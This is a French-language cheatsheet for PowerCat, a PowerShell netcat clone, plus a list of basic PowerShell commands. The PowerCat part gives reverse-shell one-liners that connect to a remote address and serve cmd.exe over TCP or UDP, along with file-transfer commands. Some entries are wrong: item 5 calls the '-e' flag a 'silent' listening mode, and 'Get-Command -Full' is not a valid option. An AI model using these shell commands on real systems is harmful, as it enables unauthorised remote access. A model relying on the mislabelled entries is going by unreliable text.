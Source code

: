 
PowerCat Cheatsheet:

1. Ouvrir une écoute sur un port TCP :
``powercat -l -p <port>``

2. Ouvrir une écoute sur un port UDP :
``powercat -l -u -p <port>``

3. Envoyer des données vers une adresse IP et un port spécifiés en TCP :
``powercat -c <adresse_IP> -p <port>``

4. Envoyer des données vers une adresse IP et un port spécifiés en UDP :
``powercat -c <adresse_IP> -u -p <port>``

5. Ecouter en mode silence (sans afficher les données reçues) :
``powercat -l -p <port> -e``

6. Exécuter une commande à distance en utilisant une connexion TCP :
``powercat -c <adresse_IP> -p <port> -e cmd.exe``

7. Exécuter une commande à distance en utilisant une connexion UDP :
``powercat -c <adresse_IP> -u -p <port> -e cmd.exe``

8. Transférer un fichier via TCP :
``powercat -c <adresse_IP> -p <port> -i <fichier>``

9. Recevoir un fichier via TCP :
``powercat -l -p <port> -of <fichier>``

10. Afficher l'aide de PowerCat :
``powercat -h``

Résumé des options :
- -l : Mode écoute.
- -p : Spécifie le numéro de port.
- -u : Utilise le protocole UDP.
- -c : Spécifie l'adresse IP à laquelle se connecter.
- -e : Exécute une commande sur le système distant.
- -i : Spécifie le fichier à envoyer.
- -of : Spécifie le fichier de sortie pour les données reçues.

# PowerShell

1. Lancer PowerShell :
``powershell``

2. Exécuter un script PowerShell :
``powershell -File <chemin_vers_script>``

3. Exécuter une commande PowerShell :
``powershell -Command "<commande>"``

4. Afficher l'aide :
``PS> Get-Help``

5. Afficher l'aide pour une commande spécifique :
``PS> Get-Help <commande>``

6. Afficher les commandes disponibles :
``PS> Get-Command``

7. Afficher les informations détaillées sur une commande :
``PS> Get-Command <commande> -Full``

8. Afficher les alias de commandes :
``PS> Get-Alias``
9. Afficher les variables :
``PS> Get-Variable``

10. Afficher les modules importés :
``PS> Get-Module``

11. Naviguer dans les répertoires :
``PS> Set-Location <répertoire>``
``PS> cd <répertoire> (alias de Set-Location)``

12. Lister les fichiers d'un répertoire :
``PS> Get-ChildItem <répertoire>``

13. Créer un nouvel objet :
``PS> New-Object <type>``

14. Exécuter une commande système :
``PS> Invoke-Expression "<commande>"``

15. Exécuter une commande en arrière-plan :
``PS> Start-Job -ScriptBlock { <commande> }``

16. Afficher les processus en cours d'exécution :
``PS> Get-Process``

17. Arrêter un processus :
``PS> Stop-Process -Name <nom_processus>``

18. Gérer les services :
``PS> Get-Service``
``PS> Start-Service -Name <nom_service>``
``PS> Stop-Service -Name <nom_service>``

19. Gérer les tâches planifiées :
``PS> Get-ScheduledTask``
``PS> Start-ScheduledTask -TaskName <nom_tâche>``
``PS> Stop-ScheduledTask -TaskName <nom_tâche>``

20. Manipuler des fichiers et dossiers :
``PS> Copy-Item -Path <source> -Destination <destination>``
``PS> Move-Item -Path <source> -Destination <destination>``
``PS> Remove-Item -Path <chemin>``



